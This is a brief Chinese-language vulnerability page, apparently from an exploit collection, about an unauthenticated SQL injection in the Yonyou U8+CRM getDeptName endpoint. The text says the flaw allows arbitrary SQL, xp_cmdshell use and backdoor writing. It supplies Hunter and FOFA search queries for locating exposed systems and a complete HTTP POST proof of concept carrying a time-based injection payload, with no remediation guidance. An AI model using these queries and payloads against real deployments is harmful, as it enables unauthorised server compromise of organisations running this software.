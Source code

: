 ## 用友U8-CRM系统getDeptName存在SQL注入漏洞

用友U8+CRM系统getDeptName存在SQL注入漏洞，未经身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

## hunter

```jade
app.name="用友 CRM"
```

## fofa

```jade
title="用友U8CRM"
```

## poc

```javascript
POST /lead/leadconversion.php?DontCheckLogin=1&Action=getDeptName HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bgsesstimeout-;
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

userid=1%27;WAITFOR+DELAY+%270:0:5%27--
```

![image-20241206220645156](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412062206241.png)